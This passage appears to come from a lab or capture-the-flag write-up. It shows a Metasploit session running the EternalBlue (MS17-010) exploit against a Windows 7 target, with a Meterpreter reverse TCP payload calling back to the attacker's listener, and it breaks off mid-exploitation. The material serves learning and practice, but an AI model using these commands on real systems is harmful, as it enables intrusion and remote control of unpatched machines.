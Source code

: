 ```bash

Interact with a module by name or index, for example use 5 or use exploit/windows/smb/smb_doublepulsar_rce
```

Since previous scans pointed to the target OS being windows 7, the second option in the list seemed like a perfect candidate.

```bash
msf5 > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.201.83
RHOSTS => 10.10.201.83
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.201.83     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.100.83     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

I left the default payload as the staged reverse TCP shell, and kicked off an attack to see if I could get a shell.

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.100.83:4444 
[*] 10.10.201.83:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.201.83:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.201.83:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.201.83:445 - Connecting to target for exploitation.
[+] 10.10.201.83:445 - Connection established for exploitation.
[+] 10.10.201.83:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.201.83:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.201.83:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
```